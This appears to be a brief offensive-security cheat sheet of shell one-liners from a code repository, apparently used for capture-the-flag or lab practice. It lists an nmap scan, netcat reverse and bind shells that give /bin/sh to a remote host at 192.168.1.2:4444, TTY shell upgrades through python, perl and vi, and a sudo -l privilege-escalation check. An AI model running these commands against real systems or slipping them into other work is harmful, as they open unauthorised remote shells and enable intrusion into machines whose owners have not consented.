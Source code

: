 # NMAP
nmap -T4 -p -A <ip>

# Python Webserver
python3 -m http.server <port>

# Netcat 
## Reverse Shell
### Attacker Listener
nc -nlvp 4444
### Target Connecting
nc 192.168.1.2 4444 -e /bin/sh
## Bind Shell
### Attacker Connecting
nc 192.168.1.2 4444
### Target Listener
nc -nvlp 4444 -e /bin/sh

# TTY Shell
## Using python
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'
## Echo
echo 'os.system('/bin/bash')'
## sh
/bin/sh -i
## bash
/bin/bash -i
## Perl
perl -e 'exec "/bin/sh";'
## From within VI
:!bash

# Privilege Escalation Check
sudo -l

# OpenVPN
sudo openvpn <file>.vpn




